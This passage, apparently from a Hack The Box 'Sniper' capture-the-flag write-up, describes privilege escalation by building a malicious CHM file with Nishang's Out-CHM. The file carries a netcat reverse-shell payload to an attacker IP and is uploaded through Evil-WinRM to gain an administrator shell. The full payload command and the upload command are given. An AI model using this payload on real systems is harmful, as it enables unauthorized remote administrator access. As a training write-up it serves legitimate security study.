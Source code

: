 I did some research and found the [Nishang Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) tool that can generate malicious payload. I should be able to get RCE as the administrator with this malicious file.

## Generating a malicious CHM file for privilege escalation

After installing the HTML Help Workshop on my Windows machine, I generated a malicious CHM file that uses netcat to spawn a reverse shell:

`PS > Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.11 3333" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"`

Uploaded it to the server...

`*Evil-WinRM* PS C:\docs> copy \\10.10.14.11\test\doc.chm .`

And boom, got a shell as `administrator`:

![](/assets/images/htb-writeup-sniper/root.png)